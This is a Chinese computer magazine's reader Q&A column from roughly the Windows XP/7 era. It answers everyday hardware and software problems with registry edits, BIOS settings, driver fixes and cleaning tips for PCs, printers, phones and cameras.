Q 安装的是Windows 7系统，最近不知道什么原因导致每次开机后都要重新启动一次，重新启动后就可以正常工作了。请问这该如何解决？

A 出现这种问题后，可以考虑使用硬件排除法来解决：先将内存条拔下，用橡皮擦小心地将金手指处擦一遍，再重新安上。其次再考虑显卡原因，将显卡拔下将金手指处擦一遍并重新安上。最后再考虑电源、硬盘、主板，有条件的话可以结合替换法来检查问题所在。

## 无法删除 USB 设备

Q 在一台旧电脑中安装的Windows XP系统，最近总是无法删除USB设备，提示被其他软件打开，而我已经将所有的程序都关闭了。请问这是怎么回事？

A 这通常是一些程序进程在从优盘读取数据或是向优盘写入数据而导致的，只要这类进程结束读写操作就可以正常删除设备了。如果一直出现这样的情况，而优盘灯又不闪烁，表明没有数据读写，可以直接拔除设备。

> 傻博士有话说：
通常情况下，只有在数据正在写入时突然拔除优盘会影响数据安全，而在数据未执行读写操作时拔除优盘一般不会造成不良影响。在系统中还可以通过将USB设备属性设置成“快速删除”来优化设备卸载，避免拔除时对优盘的影响：右击设备图标，选择“属性”，在打开的窗口中的“硬件”列表中选择设备，再单击“属性”，在弹出的窗口中选择“策略”，选择“快速删除”即可（见图）。



## 文件夹不能自动刷新

Q 使用的是Windows XP系统，最近不知道什么原因导致文件夹无法自动刷新，向某个文件夹中加入文件后，必须手工刷新一次才能看到。请问这该如何解决？

A 请尝试打开注册表编辑器，定位到【HKEY_LOCAL_MACHINE\System\Currentcontrolset\Control\Update】分支，找到“UpdateMode”键值项，将其值设置成“0”即可。

## 快捷方式属性失效

Q Windows XP系统，找文件具体位置时我习惯右击快捷方式图标并选择“属性”，然后再通过“查找目标”来确定位置。但是现在点击“查找目标”无任何反应了。请问这该如何解决？

A 这可能是由于系统相关组件出现问题所致，请按下面的命令重新将相关DLL文件注册一下即可完成修复：

```
regsvr32 mshtml.dll /s
regsvr32 urlmon.dll /s
regsvr32 msjava.dll /s
regsvr32 browseui.dll /s
regsvr32 oleaut32.dll /s
regsvr32 shell32.dll /s
```

## 无法切换到超级账户

Q 单位的电脑，安装的是Windows XP系统，系统中有两个管理员账户，一个是超级账户，另一个是AAA。每次登录系统时都只显示AAA，无法登录到超级账户。请问如何才能登录到超级账户呢？

A 在登录界面看到AAA账户时，按Ctrl+Alt+Delete键切换到登录窗口，直接输入超级管理员账号“administrator”及密码即可登录了。此外，如果想让这个超级管理员账号显示在登录窗口，可在注册表中定位到【HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList】，在其下新建一个DWORD值，键项名为“Administrator”，将键值设为“1”，重启系统就可以啦。

## 系统时间无法修改

Q 电脑的系统时间总是无法修改，现在显示为2004年，修改时间后只要按“应用”按钮就会回到原来的时间。请问这该如何解决？

A 出现这种现象，一般有以下几种原因：
- 有保护软件对系统时间进行了限制，例如一些防火墙软件就提供了锁定系统时间不让修改的功能，只要在这类软件中取消对时间的修改限制即可恢复正常。
- 感染病毒导致时间修改权限限制，只有将病毒清除才能解决问题。
- 系统组策略进行了权限限制，只要在组策略编辑器的“计算机配置→Windows设置→安全设置→本地策略→用户权利指派→更改系统时间”中，将当前系统账户添加进去即可。

此外，在遇到这个问题之后，也可先考虑到BIOS程序设置中修改系统时间，一些与操作系统相关的原因都可以绕开。

## 桌面字体如何去掉阴影

Q 安装的是Windows 7系统，通过选项设置可以去掉桌面字体背景，但是字体颜色会变成黑色，遇到深色背景图片时就不容易看得清。请问，如何设置才能在不改变字体的颜色情况下又能去掉字体的阴影？

A 这可能是你使用了第三方桌面主题而导致的。换回系统默认的系统主题，然后直接可以修改桌面上的背景色、字体色了。方法：右击桌面；选择“个性化”，单击“窗口颜色”，在“项目”中选择“桌面”，然后直接修改字体、背景等颜色即可（注：在Windows 7系统中需要启用Aero特效后才能对相关参数进行设置）。

## 查看文件夹时速度很慢

Q 我使用的是64位版Windows 7系统，发现在打开一些体积较大的文件夹或是含有视频文件夹时，地址栏会有绿色进度条状，很慢。请问如何关闭这个功能，让文件夹打开快点？


## 笔记本电脑电池无法充电

Q 一台笔记本电脑，插上电源适配器充1分钟左右就停止充电，关闭笔记本电脑，又提示在充电，而取下电源适配器，笔记本电脑无法开机，请问这是什么问题造成的？

A 建议你用万用表测量笔记本电脑锂电池的电压，如果笔记本电池电压不正常，则证明充电线路没问题，更换电池一般可以解决问题。假如笔记本电脑电池电压正常，则该问题应该是由于笔记本电脑充电控制线路存在问题造成的，建议你到专业维修网点进行维修。

> 傻博士有话说：
一般而言，笔记本电脑的充电电池的充电线路会智能判断电池电压，如果电池电压高于一定的数值则停止充电。所以，假如笔记本电脑电池存在故障或笔记本电脑充电控制线路存在故障，可能会导致上述问题的出现。

## 华擎 ION330 休眠唤醒后音频失效

Q 一台华擎ION330电脑从待机或休眠状态模式下唤醒时，音频设备不能再继续运作，请问是什么问题造成的？

A 该问题是由于你的声卡驱动程序存在问题造成的，建议你更新主板驱动程序，一般问题可以解决，可从Realtek网站下载音频驱动程序R2.53，下载地址：http://tinyurl.com/3l2jwbu。

## PSP GO 游戏机为何充电量小

Q 一台索尼PSP GO游戏机，与计算机USB接口连接，索尼PSP GO绿灯一直在亮。安装完游戏拔下PSP GO游戏机USB连接线，电量只剩下两格，重新将索尼PSP GO连接到计算机，电源灯还是绿灯，显示的也是连接USB，仔细观察充电的符号那个小电池的符号不动，请问这是什么问题造成的？

A 首先，USB口的最大电流并不大，所以如果PSP GO在使用的时候充电，充电的电量可能还比不上消耗的电量。其次，如果为PSP GO充电，需要开启设置里的USB连接充电选项，一般问题可以解决。

## 插入显示器无法切换

Q 一台东芝L630笔记本，用本机看高清电影、玩游戏、上网冲浪等都非常流畅，但是用笔记本电脑跟液晶电视连接，每次切换显示设备时，都需要手动配置ATI显示面板，而不是自动切换，按下显示输出切换键“Fn+F5”，没有任何反应，请问这是什么问题造成的？

A 建议你进入Windows 7操作系统，在桌面空白处右键单击，在弹出的快捷菜单中选择“Catalyst Control Center”选项；展开“信息中心”，然后选择“显示器管理器”，在“图形适配器”下拉菜单中选择第二个图形适配器，即开启“禁用的显示器”。右键单击当前显示器图标，选择“交换显示器映射”，然后配置相应的分辨率、刷新率等，单击“确定”按钮，一般问题可以解决。

## 诺基亚经常自动联网

Q 一台诺基亚C7手机，其他功能可以正常使用，但是每隔大约10分钟就自动登录联网一次，然后又快速自动断开，请问该如何解决？

A 首先，点击“菜单→网络→选项→设置→标准→接入点→需要时询问”，设置成需要上网的时候，进行询问提醒；其次，在主页界面，点击左下角的选项，确定第三个显示的“小部件转为在线模式”修改为“小部件转为离线模式”；再次，选择“菜单→设置→连接功能→管理设置→分组数据→分组数据连接→当需要时”；一般问题可以解决。

## MP4播放器出现红屏现象

Q 一台MP4播放器一直使用正常，下载电影开机后出现红屏现象，再次用USB数据线连接计算机链接，一会儿断开，一会儿又显示可连接，但是无法进入磁盘，请问这是什么问题造成的？

A 该问题一般是由于软件造成的，比如MP4播放器感染病毒或机器本身软件程序存在BUG，建议你重新刷写MP4播放器固件程序，看问题是否可以解决。如果问题仍然存在，建议你请专业人员对MP4播放器进行检测，如果是主板故障，建议就不要维修了，因为更换MP4播放器主板价格较贵，性价比不高。

## ThinkPad笔记本离开后自动锁定

Q 一台新购买的ThinkPad笔记本电脑，使用中一切正常，但有一次我离开一会后，回来发现电脑被自动锁定，过一会自己又激活了，请问这是什么原因造成的？

A 这是由于你设置了AutoLock锁定技术造成的，建议你双击系统任务栏的“AutoLock”图标，在出现的快捷菜单中将“当摄像头检测到无人使用计算机时自动锁定计算机”选项的勾选去掉，一般问题可以解决。此外，如果你想使用这项功能，只是希望偶尔离开时不要那么快就锁定，可以将“不使用键盘或鼠标达到以下时间后开始用摄像头进行检测”的时间设置长一些，这样系统自动切换到“锁定”状态的时间就会延长。

> 傻博士有话说：
AutoLock锁定技术是基于在公共场所使用笔记本的一种安全技术，它可以通过笔记本自带的摄像头检测使用者是否在笔记本旁边，如无人使用时就可以自动锁定，从而提高笔记本内的资料安全性。

## iPhone 4 插入笔记本的USB接口不能充电

Q 一台ThinkPad T410笔记本电脑一直可以正常使用，但是将iPhone 4手机接入这台笔记本为手机充电时，iPhone 4无法显示正在充电，而接入其他笔记本是可以充电的。请问是不是我的笔记本USB口损坏了？

A 按照苹果的标准，iPhone、iPad所标配的充电器都为5.1V/2.1A标准，而目前市面上的一些笔记本电脑的USB接口只能输出5V/500mA电流，由于电流不达标，所以造成无法正常充电。通过刷新主板BIOS设置，可以对笔记本USB接口输出电流进行优化，从而使USB接口可以正常为苹果设备充电。具体到这款笔记本电脑，建议将你的笔记本电脑的主板BIOS升级到1.35版本以上，待升级完成后，重新启动计算机，按F2键进入主板BIOS设置界面，并依次切换到“Utility→Config→Power→USB”设置页。首先将“Always On USB”选项设为“Enabled”，然后将“Always On USB Mode”设为“iPod or iPhone”，按F10键保存退出主板BIOS即可。重新进入Windows 7操作系统，一般问题可以解决。

## Android 系统手机 WiFi 信号差

Q 一台Android系统的手机，其他功能均可以正常使用，但是使用系统自带的WiFi上网管理程序，感觉WiFi信号很差，请问该如何解决？

A 这在Android系统中非常普遍，建议你通过安装第三方工具来解决问题。这里推荐"Wifi管理"，下载地址：http://soft.tom.pda.com/software/47423/。软件的界面很直观，初始界面上显示出当前检测到的所有WiFi网络信息，包括网络的SSID号、信号强度、通道号、连接状态、加密方式等。选定点击列表中的网络名称，正确输入密钥，连接网络即可。这里要注意的是，如果你的WiFi信号并没有出现在WiFi网络列表中，可以点击"添加网络"选项，手动添加WiFi网络。而当不需要WiFi信号时，则点击"关闭WiFi并退出"即可。

## 喷墨打印机注墨后打印不清晰

Q 一台喷墨打印机，对墨盒注墨后，喷墨打印机打印资料时，开始的部分文件很清晰，但是随着使用，后面打印的文件内容逐渐模糊甚至变花，请问这是什么问题造成的？

A 这一问题主要是由于喷墨打印机的喷嘴堵塞造成的。建议你首先把墨盒卸下，然后用带水压的自来水冲洗墨盒注墨处，一直要等到喷墨嘴流出无色的水为止。然后，把墨盒放在干燥处晾干，接着重新注入墨水，安装回喷墨打印机，一般问题可以解决。（此方法有一定风险，请慎用，或在高手指导下进行）

## CPU 过热造成死机问题

Q 一台计算机最近经常出现黑屏死机现象，经过重启"n次"后又能进入Windows 7操作系统，但是没过多久再次黑屏死机。打开机箱盖，用电风扇直吹机箱内部，但是玩游戏3个小时后，黑屏死机再次出现，进入主板BIOS查看CPU温度高达85°C，请问该如何解决？

A CPU温度过高，首先建议你更换CPU散热器，且确定按照正确方法涂抹了导热硅脂。如果问题没能解决，那么问题可能不在散热器上，而是主板散热系统出现问题。该问题有可能是主板的供电模块引起的，也可能是BIOS设置不当造成的，因为主板BIOS中对CPU输出的电压过高，就可能导致CPU莫名其妙地出现高温。建议先将主板BIOS恢复到缺省设置，一般问题可以解决。如果问题仍然存在，建议到专业维修点检测主板是否存在问题。

## 喷墨打印机打印出现斑马纹

Q 一台HP Deskjet 200c喷墨打印机，最近打印出的内容中有白条、斑马纹等，请问该如何解决？

A 出现该问题的原因一般是由于喷墨打印机的墨盒的多个喷嘴堵塞造成的，从而导致打印机的打印输出中出现等距离的斑马状条纹。首先，建议你清洁墨盒电子触点，具体方法如下：启动打印机，打开打印机顶盖，墨盒将移动到打印机中央，从电源插座上拔掉打印机电源线，取出彩色墨盒，使用洁净、柔软、干燥的无绒抹布，擦拭墨盒铜色条纹，一般问题可以解决。（有一定技术难度，如果是新手，务必请打印机高手帮忙，或在其指导下进行操作。）

俊博士有话说：如果喷墨打印机打印出现斑马纹缺少一种颜色，有可能是墨盒中的墨水用尽造成的。比如在打印机测试页应包含黑色、黄色、蓝色和红色的彩色条带，打印输出中出现白色条纹或缺失某种颜色均表示墨盒中墨水已经用完。如果墨盒的某种颜色用完，则需更换墨盒。因为日常打印所需要的成千上万种颜色，需要用彩色墨盒中的3种墨水来调和，每种颜色都不能缺少。

## 开机连续两声短响报警声

Q 一台计算机使用微星KA780GM2主板，外接USB集线器和USB耳机时，启动计算机，蜂鸣器就会异常发出连续两声短响报警声，然后才成正常启动计算机，请问这是什么问题造成的？

A 这是由于你的主板在开机自检时会检测连接到主板上的所有USB设备，同时通过蜂鸣器给出声音提示，而有些主板甚至会根据USB接口连接的USB设备数量的变化而发生变化。比如连接1个USB设备时可能会出现1次短响。这属于正常情况，可以正常使用。如果你确实对主板BIOS报警非常敏感，建议你可以在主板BIOS中屏蔽掉开机检测USB设备选项，具体方法如下：启动计算机，按"DEL"键进入主板BIOS设置，选择"Advanced->Legacy USB Support"选项，将其设置为"Enabled"，按"F10"保存退出主板BIOS设置，一般问题可以解决。

## CPU 风扇不能识别

Q 一台计算机开机提示"CPU Fan Error"，按"F1"键可以进入Windows 7操作系统，请问这是什么问题造成的？

A 一般CPU风扇的电源线内，有一根专门用来检测CPU风扇的信号线，如果该信号线没有插好，就会造成计算机启动后主板无法检测到CPU风扇正确信息，造成你说的现象。建议你对照主板说明书，将CPU风扇的电源插头插到相应的位置，一般问题可以解决。（有一定风险，新手请在高手的指导下进行操作。）

## 播放 1080P 视频出现马赛克

Q 一台笔记本使用二代Core i5处理器，CPU集成HD 3000显卡，支持1080P视频解码；用QQ影音播放高清电影时，经常出现无法播放或者画面出现"马赛克"，请问这是什么问题造成的？

A 首先，请确认你的笔记本电脑已经安装了支持二代Core i系列的CPU显示驱动，此外还需要进行必要的高清优化设置，运行QQ影音播放器，右键单击播放器主画面，选择"播放器设置"选项，切换到"高清加速"解码，并单击"视频解码器"选项卡，勾选"自定义优化模式"复选框后，将"MPEG2"设为"Intel MPEG2 HD Decoder"；"H.264/AVC"设为"Intel H264 HD Decoder"；"VC-1"设为"Intel VC1 HD Decoder"，单击"应用"按钮，一般问题可以解决。

## 休眠后声卡不能发声

Q 一台计算机一直使用正常，但是进入休眠状态后，唤醒计算机后，声卡无法正常发声，而重新启动计算机后问题解决，再次休眠问题仍然存在，请问该如何解决？

A 建议你启动计算机，按"DEL"键进入主板BIOS设置，选择"Power Management Setup"选项中的IRQ值设置成"Enable"，并将"Power Management"设置成"User Define"，按"F10"键保存退出主板BIOS设置，再次进入Windows 7操作系统即可。进入休眠状态后，再次唤醒计算机，一般问题可以解决。

## DVD 刻录为何中断

Q 一台笔记本电脑使用DVD刻录机刻录光盘时，经常出现笔记本电脑进入休眠状态，造成刻录中断，刻录无法正常完成，请问该如何解决？

A 该问题应该是由于你没有对笔记本电脑"修改电源管理方案"中的待机时间造成的。可以试试使用软件Don't Sleep来解决该问题，运行后在"Block"一项中，根据自己的实际需要来勾选（默认为全选），然后选中右侧"Enabled"即可。注意，不要关闭软件，这样，相应的关机、休眠、重启、空闲关屏等操作就都会被禁止，刻录时就不用担心被自动休眠打断了。

俊博士有话说：Don't Sleep用来防止系统关机、待机休眠和重启。在软件中运行"Block"一项，选中"Disabled"或者退出软件，所有操作就又会恢复。此外，还可以设置多长时间后解除休眠状态，勾取"use Timer"，即可在"Timer"中指定解除时刻，同时可以看到解除休眠的时间倒计时。

## 黑色墨盒没墨为何还能打印

Q 一台喷墨打印机在"打印首选项"中显示黑色墨水已经耗尽，需要更换墨盒；但是最近几天使用打印机还是可以打印出黑色字体，请问是否需要更换黑色墨盒？

A 该问题应该是由于你的黑色墨盒有少量余墨，或者是喷墨打印机用彩色墨盒墨水通过混合"调配"出黑色，而这种所谓的黑色墨水打印成本会相对提高很多，所以建议你立即停止打印，购买全新的黑色墨盒，并安装到喷墨打印机中。

## 笔记本电脑触控板无法使用

Q 一台笔记本电脑，在敲击键盘时经常无意碰到触控板，所以想关闭触控板，按下"Fn+F9"键，屏幕上显示触摸板已关闭，但是实际触控板依然正常使用，请问这是什么问题造成的？

A 首先，建议你先卸载热键驱动，然后重装热键驱动，看问题是否可以解决。此外，如果触控板采用的是Synaptics方案，建议你安装Synaptics触控板管理器（在笔记本的驱动光盘里面应该自带驱动程序），将其设置为"插上外接鼠标，触控板就失效"，该设置可以让你使用外接USB鼠标时，触控板功能被自动屏蔽。还有就是一些笔记本电脑拥有触控板锁定键，按键的位置有的位于触控板旁边，有的位于键盘上方的功能键区域，建议你找到将其关闭，一般问题可以解决。

## 网卡速度从 100MB 变成 10MB

Q 一台计算机网卡连接是100.0Mbps，最近Windows 7操作系统右下角的图标显示为10.0Mbps，请问我该如何解决？

A 建议你重新安装网卡驱动程序试试，具体方法如下：右键单击"我的电脑"，选择"属性"，进入"系统属性"窗口，单击"硬件"选项卡，单击"设备管理器"，进入"设备管理器"窗口，双击"网络适配器"，右键单击相应的网卡设备，在弹出的快捷菜单中选择"更新驱动程序"，进入"硬件更新向导"窗口，根据提示更新网卡驱动程序，一般问题可以解决。

## 4GB 单条内存只显示 1.99GB

Q 一台计算机使用i5 2300的CPU，微星PH67S-C43的主板，丽台Quadro FX580专业绘图显卡，使用红DDR3 1333 2G*2组成双通道，显示可用内存为1.99GB；而换成4GB单条内存，可用内存仍然显示1.99GB，更换其他显卡，可以正常显示内存容量，请问这是什么问题造成的？

A 你的丽台Quadro FX580专业绘图显卡自带512MB内存，并不会占用系统内存。而从你描述的现象来看，该问题肯定是由于显卡造成的，建议检查你的显卡驱动程序是否为专业版驱动，因为专业绘图显卡，如果安装普通版显卡驱动程序，一般会出现类似问题。卸载原有驱动程序更换为专业版驱动程序试试。

## 开机为何识别固态硬盘

Q 一台计算机使用技嘉Z68X-UD7的主板，OCZ-VERTEX3 MI (111 GB)固态硬盘和西部数据1TB硬盘；将固态硬盘接在主板原生的Sata3接口上，将普通硬盘接在主板Sata2接口上，每次启动计算机，主板BIOS都会显示无法找到固态硬盘，重新启动计算机几次，问题就可以解决，请问这是什么问题造成的？

A 该问题应该是由于技嘉Z68X-UD7主板的"智能响应技术"造成的，建议你从技嘉官方网站下载最新版本的主板BIOS驱动程序，升级主板BIOS程序，一般问题可以解决。

## 笔记本电脑声卡不能发声

Q 一台笔记本电脑，一直使用正常，最近一次操作中调整了一下Windows 7桌面右下角工具栏"小喇叭"图标，外置音箱就不能发声了，但是插入耳机可

A 该问题应该是由于设置不当所致。目前市面上销售的笔记本电脑的音量控制器非常智能，它可以判断是否插入了耳机，并可以单独控制耳机的音量。插入耳机是可以正常使用的；所以当插入耳机后，笔记本能够正常使用，一般就可以判断声卡是正常的；而出现问题的原因一般是由于设置不当所致。

## 傻博士信箱

《电脑爱好者》·合订本

Q 连接投影机无显示：我的笔记本电脑接入投影机后没有任何显示，但是该台投影机接入其他的笔记本电脑就能在投影机上显示相应画面，请问这是什么问题造成的？

A 该问题应该是由于你的笔记本电脑连接投影机后设置不正确造成的，建议你单击“开始”，选择“控制面板”，单击“显示”按钮，在窗口左侧的列表中找到“连接投影机”，在出现的窗口中选择你想要的效果，一般问题可以解决。

Q 无线信号无法连接：一台笔记本电脑可以查找到无线信号，但是无法连接，请问这是什么问题造成的？

A 首先，请确定你的笔记本电脑搜寻到的无线信号是否是由电信运营商提供的公共无线信号，这种信号经常出现“有信号，连不上”的现象，一些由电信运营商提供的公共无线信号，需要在运营商那里开通，才能解决问题。另外，你要确定你收到的无线信号是否是你的无线路由器所发射，然后建议重新启动无线路由器，看问题是否可以解决。

Q 游戏如何在宽屏上玩：一台笔记本电脑其他功能一切正常，最近玩一下较老的单机游戏，游戏设置不能调分辨率，导致玩游戏的时候屏幕两边都有黑色条纹，请问该如何解决？

A 的确，对于目前的宽屏电脑而言，确实不是什么游戏都能支持宽屏的分辨率的，尤其是一些相对较老的经典游戏更是如此。可以通过调整显卡驱动选项来实现，具体方法如下：进入显卡的“控制面板”，在显示部分中找到“缩放”相关的选项，例如你nVidia的显卡就在“显示”中找到“更改平板显示器缩放”。这里要强调一点的是，调整显卡驱动选项，可能会造成画面变形，影响画面体验，因此对于像魔兽等比较经典的游戏，可以通过下载安装宽屏补丁来解决，而不是修改设置，从而实现宽屏享受游戏的乐趣。

Q 接收彩信为乱码：一台黑莓8900的手机，其他功能使用正常，但是收彩信经常出现乱码，请问该如何解决？

A 该问题应该是由于设置不当造成的，建议你选择“选项→高级选项→浏览器推送下”，将其中的“允许WAP推入应用程序”前的勾选去掉，这样彩信就可以正常接收了。

Q 硬盘读写速度变慢：一台计算机使用西部数据1TB蓝盘，从RAID硬盘复制文件到西数蓝盘时，从开始的200M/S突然下降到5M/S，而且过程中系统还有死机现象，请问这是什么问题造成的？

A 导致这一问题出现的原因很多。建议你将硬盘更换到其他计算机，看问题是否依旧，如果问题依旧，那么可以确认你的硬盘存在故障，建议你到西部数据售后服务更换或维修硬盘；如果问题解决，那么建议你升级你的主板芯片组驱动程序，一般问题可以解决。另外，其他设备也可能导致产生这一问题，以上方法不能解决时，可试试对内存、SATA数据线等设备，采用替换法逐一排除，找出导致问题的设备，如条件许可的话可用新设备替换。

傻博士有话说：
使用诺基亚塞班系统手机，如果你没有证书时，建议你依次点击“功能表→设置→手机→时间和日期”，更改手机日期，建议以五个月左右为周期向前调整，一般均可实现正常安装！

Q 诺基亚手机安装软件提示证书受限：一台诺基亚C6-01手机，安装软件时提示证书错误、受限，请问该如何解决？

A 建议你依次点击“功能表→设置→程序管理→安装设置”，将“软件安装”设为“全部”，“在线证书检查”设为“关”即可。注意手机时间及日期也需要按照当时的时间及日期正确设置好，否则有可能提示证书错误。

Q 光标为何闪烁晃眼：我的电脑使用中很正常，唯一的问题是光标闪烁的速度非常快，有时候甚至有些晃眼，请问这与显示器的质量有关系吗？

A 光标闪动晃眼应该与显示器的质量没有关系，该问题应该是由于你的“控制面板”内键盘闪烁设置不当造成的。建议你单击“开始”，单击“控制面板”，选择“键盘”图标，进入“键盘属性”设置界面，在“光标闪烁速度”选区内，通过滑块滑块，调整光标显示速度，调整完成后，单击“确定”按钮，一般问题可以解决。

Q 索尼记忆棒无法读取：一块4GB索尼记忆棒一直可以在相机里正常使用，但是最近记忆棒无法被数码相机读取了，请问该如何解决？

A 造成该问题的原因很多，在用相机或读卡器读取存储卡资料时抽出记忆棒，电池电量太低时拍照，记忆棒放在高磁性物品附近等等，都会造成记忆棒无法读取。建议你重新格式化记忆棒，如果问题没有解决，建议你将记忆棒送到售后服务进行更换，目前市面上销售的存储卡产品，许多厂商都提供“终身保固”的售后服务。

Q ThinkCentre 设置主板 BIOS 开机密码：最近购得一台二手的ThinkCentre台式机，想为其设置一个主板BIOS开机密码，以防小孩子经常玩而被误操作，请问该如何解决？

A 建议你启动计算机，按“F1”键进入主板BIOS设置，选择“Security→Set Passwords”，将光标移动到“Set User Password”项，按回车键，系统会提示输入两次密码，输入完密码后，再次按回车键进行确认。选择“Require User password on warm boot”将其改为“Yes”，这样在每次启动计算机时，就会提示输入BIOS密码。

Q 黑莓手机无法拨打电话：一台新购买的黑莓8830手机，打电话打不出去，发短信手机显示的都是问号，请问这是什么问题造成的？

A 首先，建议你在桌面状态，按“拨号键→滚轮→选项→智能拨号”，改成未知，如果不改，从电话本里拨打电话的时候，系统就会把国内的电话号码改成13位以上，会自动加上相应的“+国际区号”，从而出现上述问题。

Q 开机提示“HDD Controller Failure”：一台计算机启动后无法进入Windows 7操作系统，且出现“HDD Controller Failure”提示信息，请问这是什么问题造成的？

A 造成该问题的原因很多，首先，由于硬盘电源线与电源接触不良，或硬盘连接主板的数据线接触不良会造成上述问题。建议你打开计算机主机箱，重新插拔一次电源线和数据线，看问题是否可以解决。其次，如果计算机在开机自检时硬盘出现“嘀……”的响声，应该是硬盘出现坏道，建议你将硬盘送往专业维修处维修。

Q 进入操作系统黑屏：一台计算机使用Windows 7操作系统，最近进入操作系统，发现桌面是黑色的，且没有任务栏，请问这是什么问题造成的？

A 建议你右键单击“计算机”，选择“属性”，进入“设备管理器”，查看显卡驱动是否正常安装。如果存在问题，建议你手动重新安装显卡驱动程序；如果问题依然存在，重新启动计算机，按“F8”键重新进入Windows 7的“高级启动选项”，选择进入“安全模式”，在“安全模式”下重新安装显卡驱动程序。如果仍然存在问题，建议你打开计算机主机箱，将显卡拔下，插入其他计算机，看问题是否仍然出现，如果现象仍然出现的话，则可能是显卡出现故障，建议更换显卡解决该问题。

Q 显卡造成的花屏：最近购买了一块二手显卡，插入计算机主板后，经常出现花屏现象，普通界面有数个光点，速度也变慢了很多，页面一下拉就卡住，查看显卡工作温度很正常，请问这是什么问题造成的？

A 建议你首先将显卡取下重新插拔一下，重新插拔前最好用橡皮擦擦拭显卡的金手指。如果问题仍然存在，建议你可以购买洗板水，然后用牙刷蘸上洗板水，把显卡彻底清洗一下，一般问题可以解决。如果还不行，可将显卡放到其他电脑上试试，如果故障依旧，说明显卡本身有故障，可考虑更换；如果在其他电脑上显示正常，那就有可能是你电脑主板上的显卡插槽有故障了。

傻博士有话说：
显卡等元器件，在使用一段时间后，会积累相当多的灰尘，而一般人用毛刷清洁板卡灰尘时，可能会导致灰尘进入板卡等元件缝隙中，从而造成板卡元器件工作不正常。遇到这类问题，一般可用洗板水对板卡进行清理，一般能解决问题。

Q 笔记本电脑没有无线功能：最近朋友送了我一台笔记本电脑，但是无法使用家里的无线路由器上网，开机无法找到无线功能，请问该如何解决啊？

A 对于目前的笔记本电脑而言，没有无线功能是不太常见的。所以，该问题可能是由于你的WLAN 模块坏掉或被屏蔽掉造成的，建议重新启动计算机，进入主板BIOS设置，根据随机附带的主板说明书，查看WLAN无线模块是否被屏蔽，如果被屏蔽，重新开启该功能，一般问题可以解决。

如果确认笔记本电脑没有无线模块，建议可以购置一块USB接口的无线网卡，使用很容易，将其插上USB接口即可。首次使用需要装驱动，如果是Windows 7系统，驱动可以自动安装，然后使用Windows 7操作系统自带的WiFi管理界面设置相应的无线信号，一般问题可以解决。

Q 机箱前置USB口或音视频播放不正常：一台新组装的计算机，其他使用一切正常，当使用前置USB口或者耳机接口的时候，刚一碰到，机器的显示器就黑屏，请问这是什么问题造成的？

A 建议你找一个对电脑硬件比较了解的朋友帮你看看，可将主板拆出来，然后连接主板背部的USB口和耳机接口，看看是否正常。如果正常，那问题可能就出在机箱上，这款机箱的前置USB接口和耳机口应该是做到一块PCB板上，可能其中线路有问题。（注意：新手菜鸟千万不要试，最好请行家手里帮忙。）

佳能液晶屏出现黑色物体

Q 最近购买了一台佳能IXUS115 HS的数码相机，刚开始使用时发现屏幕中间有两个小黑点，几天使用下来，小黑点已经变成了工形状的黑块，请问这是什么问题造成的？

A 首先，建议你拍一张照片，假如照片上有黑点，那么该问题应该是由于CCD被灰尘等物污染造成的，建议你将相机拿到专业的维修机构进行处理。其次，如果照片上没有污点，那么该问题应该是由于你的数码相机液晶显示屏损坏造成的，建议你查询你的数码相机是否还在保修期内，如果已经出保修期，在不太影响正常使用的情况下，建议可先继续使用，因为更换液晶屏，成本会相对很高。

MacBook Air 使用 Win7 会否影响电池续航

Q 最近购买了一台新款的11寸MacBook Air笔记本电脑，我想装双系统，但是听朋友说装Windows 7操作系统后，笔记本电池续航能力会下降很多，且笔记本的发热量很大，对笔记本电脑非常不好，请问是这样吗？

A 目前，全系列MacBook均具备5小时以上电池续航时间，对于安装了Windows操作系统的用户而言，可能在电池续航能力上会有所减少，这是由于操作系统内部设计问题造成的，但不影响正常使用。此外，MacBook在安装Windows操作系统后，笔记本电脑硬件发热量会相应增大很多，所以建议已经选择MacBook的用户，可以安装Windows 7操作系统，但是不建议长时间使用Windows 7操作系统。此外，这里要提醒你的是，在Mac下长时间浏览Flash视频网站也会导致笔记本硬件发热量增加和电池续航时间严重缩短的问题。

无法启动原是键盘惹的祸

Q 我的电脑一直使用正常，最近搬了一次家，开机后提示“Keyboard error or no keyboard present”，且计算机无法正常启动，请问这是为什么啊？

A 该问题应该是由于你的键盘没有正确安装或键盘损坏造成的，建议你首先检查键盘是否与主板接口正确连接。如果重新连接后问题仍然存在，则建议你更换键盘试试，看问题是否解决。此外，建议你启动计算机，按DEL键，进入主板BIOS设置，选择“Standard CMOS Features”，将“Halt On”选项设置为“All But Keyboard”，按F10键保存设置后退出，这样可以强行让计算机启动时不检测键盘，直接进入Windows 7操作系统，看键盘是否可以正常使用。

ThinkPad X200 笔记本电脑换硬盘

Q 一台ThinkPad X200笔记本电脑，硬盘容量是160GB，最近朋友送了我一块500GB的移动硬盘，我将移动硬盘盒拆开，想把此硬盘更换到ThinkPad X200笔记本电脑上，但是不知道该机型的硬盘应该如何取出，請問能帮我解决吗？

A 你可以将ThinkPad X200笔记本电脑翻过来，在电脑底部左上角有一个螺丝，旋开后，打开侧面那一块小盖子，约8CM长的一块盖子。然后就可以看到硬盘了，正对面观看有一块黑色的像不干胶带一样的胶带，用把平口改刀把这块胶带拉出来，这块胶带的作用就是拉出硬盘的，胶带出来后拉胶带，硬盘就取出来了。不过这个时候硬盘上还带有SSD托架和防震硅胶保护条，要想更换硬盘，首先需要将这两样取下，防震硅胶保护条拆卸非常容易，分别向左右轻轻掰动就可以取下，然后将固定硬盘与SSD托架的四个螺丝用螺丝刀拧开，将硬盘从SSD托架上抽出，这样才能将硬盘完全取下。按反向操作，将你的新硬盘装上，你的ThinkPad X200笔记本电脑就可以使用更大容量的500GB硬盘了。（注意：操作有风险，初学者勿试，最好请比较熟悉笔记本电脑的高手朋友帮忙。）

傻博士有话说：

目前市面上的移动硬盘一般分为3.5寸和2.5寸两种，如果你的移动硬盘是2.5寸，当然可以更换到ThinkPad X200笔记本电脑上，但是如果你的硬盘是3.5寸的，就不可能安装到笔记本电脑上了，所以建议你首先确认你的移动硬盘的规格。此外建议你在更换硬盘前一定要做好数据备份，以免造成重要数据的丢失等麻烦。

笔记本电脑出风口过热

Q 一台笔记本电脑使用一段时间后，键盘上方的左边和左边的出风口附近特别热，不知我是否应该配一个散热底座呢？

